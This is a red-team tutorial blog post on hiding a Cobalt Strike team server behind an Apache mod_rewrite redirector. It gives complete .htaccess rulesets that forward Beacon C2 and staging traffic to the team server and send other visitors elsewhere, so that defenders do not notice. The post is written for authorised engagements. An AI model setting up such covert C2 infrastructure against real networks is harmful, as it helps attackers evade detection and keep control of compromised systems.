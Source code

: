```yaml
---
layout: post
title: Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite
summary: How to set up a Command and Control redirector to only allow Cobalt Strike's C2 through. Uses Apache's rewrite module to handle the filtering.
tags: 
- mod_rewrite
- cobalt strike
- red team infrastructure
image: /assets/apache/cobalt-strike-http-c2-demo.gif
commentIssueId: 13
---
```


Imagine you are performing a Red Team engagement. So far it's been very hard, fighting tooth and nail to get each step closer to totally owning their network. You finally get internal network access and things are stable. Everything looks good on your end, but on the Blue side of things IT is taking notice of traffic flowing to an unknown domain. A curious IT worker opens their browser and navigates to the site. 404 error. Suspicion++. Five minutes later your Beacons become unresponsive. You're blocked. Now you have to spin up some new infrastructure and get in again.

I am willing to bet we've all been in a similar situation at least once. One way we can reduce the risk of being caught is by using a redirector host to allow only command and control (C2) traffic reach our Cobalt Strike server and redirect all other traffic to an innocuous website, such as the target's site. A simple way to do this is using an Apache redirector as an intermediary server. Our C2 domain will point at the Apache redirector, which will perform the traffic filtering. An added benefit of using a separate host in this setup is if our domain is burned, our real Cobalt Strike team server's IP will still be useable. We can roll the redirector, get a new IP and domain, and be back in business. If we set up multiple callback domains in our Beacon payload, we won't even need to regain initial access.


# Infrastructure

You will need a fresh host to use as the Apache redirector. The host should be relatively easy to reconfigure with a new public IP. While a colo host will work, using a VPS is often an easier option. Keep in mind that all traffic used by Beacon will be received and sent back out (to your Cobalt Strike teamserver) by the host, so spec out the bandwidth and resources accordingly. Of course, the obligatory warning stands: make sure you understand your provider's Terms of Service and any applicable laws before using this for an engagement. 

Here is what our infrastructure will look like:
![Cobalt Strike HTTP C2 Redirector Infrastructure](/assets/apache/cobalt-strike-http-c2.png)


# Cobalt Strike

As you may expect, Cobalt Strike's Beacons use GET and POST requests for HTTP communications. Requests are made to URIs configured within the team server's Malleable C2 profile. Within the profile we can configure the request URIs, headers, parameters, and a number of other C2 options. I *highly* recommend reading the [documentation](https://www.cobaltstrike.com/help-malleable-c2) on Malleable C2 before using it; it's powerful! [@harmj0y's](https://twitter.com/harmj0y) post [A Brave New World: Malleable C2](http://www.harmj0y.net/blog/redteaming/a-brave-new-world-malleable-c2/) provides additional great insight.

For demonstration, we will use @harmj0y's Zeus Malleable C2 profile available [here](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/zeus.profile). The profile configures Beacons to use the following C2 settings:

* user-agent: *Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2)*
* HTTP GET URI: */metro91/admin/1/ppptp.jpg* 
* HTTP POST URI: */metro91/admin/1/secure.php*

To start Cobalt Strike with a Malleable C2 profile, use the following syntax:

```bash
./teamserver <Public IP> <password> </path/to/profile>
```

Make sure to configure your Cobalt Strike listeners and payloads to call out to your redirection domain(s), *spoofdomain.com* in our example. During a Red Team engagement, you will likely configure multiple callback domains

# Apache 

To set up Apache to use mod_rewrite, follow the first-time setup steps outlined in my [previous mod_rewrite post](https://bluescreenofjeff.com/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). 

*Update: [e0x70i](https://github.com/e0x70i) pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via `a2dismod deflate` and add the No Encode (`[NE]`) flag to your rewrite rules. (Thank you, e0x70i!)*

The way we configure our htaccess rules will depend on whether we need to support staged Beacons, such as [Scripted Web Delivery](https://www.cobaltstrike.com/help-scripted-web-delivery), or not. 

## HTTP C2 Redirection Ruleset

To only perform HTTP C2 redirection, place the following ruleset in a *.htaccess* file within the Apache web root:

```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

Replace *TEAMSERVER-IP* with the WAN IP of your Cobalt Strike team server. After saving the file, Apache will send requests for an approved URI with the user-agent configured in the Malleable C2 profile to our Cobalt Strike team server and redirect all other requests to *http://example.com/*. The question mark towards in line 7 ends the rewrite and redirects the user to exactly *http://example.com/*. If you want to retain the original request URI, delete the question mark.

Notice that the two expected HTTP URIs on line 4 are split by a pipe, enclosed in parentheses, and omit the leading forward slash. You can add other URIs the same way; this line is evaluated as a regular expression. Also note that the HTTP User Agent regex on line 3 requires all spaces, periods, and parentheses be escaped.

 
If you configure your Cobalt Strike listener to use a port other than port 80, you will need to configure Apache to [listen on that port](http://httpd.apache.org/docs/current/bind.html). By default on Debian, you can edit the port(s) Apache listens on in `/etc/apache2/ports.conf` and `/etc/apache2/sites-enabled/000-default.conf`. 


## HTTP C2 Redirection with Payload Staging Support
```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/updates/?$
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

New rules are added to lines 2 - 7. 

On line 2 the */updates/* URI is the URI configured in our Scripted Web Delivery. When the target host executes the web delivery command, it will first make a GET request to the configured URI with a blank HTTP User Agent. Lines 2 - 4 allow the request to be proxied to our teamserver. The next request the target host makes is GET to a random four character URI with the HTTP User Agent configured in the Malleable C2 profile. 

Lines 5 - 7 allow this second request through. It is possible that this pattern will change, so be sure to test your rulesets and makes changes accordingly to allow the full staging process to occur.


Here's a demo showing the C2 URL be visited by an end-user, running the Scripted Web Delivery command pulling from the same URL, and establishing a Beacon session through the redirector:
![Cobalt Strike HTTP C2 Redirector Demo](/assets/apache/cobalt-strike-http-c2-demo.gif)

# Summary

In a Red Team engagement, keeping core infrastructure hidden from defenders and flexible to change is crucial. Using Apache's mod_rewrite module we can obscure our command and control (C2) servers behind a VPS that is easily replaced. This way if a defender blocks our C2 domain and its IP, our fallback domains can be pointed to another VPS that proxies requests to the same teamserver used previously.


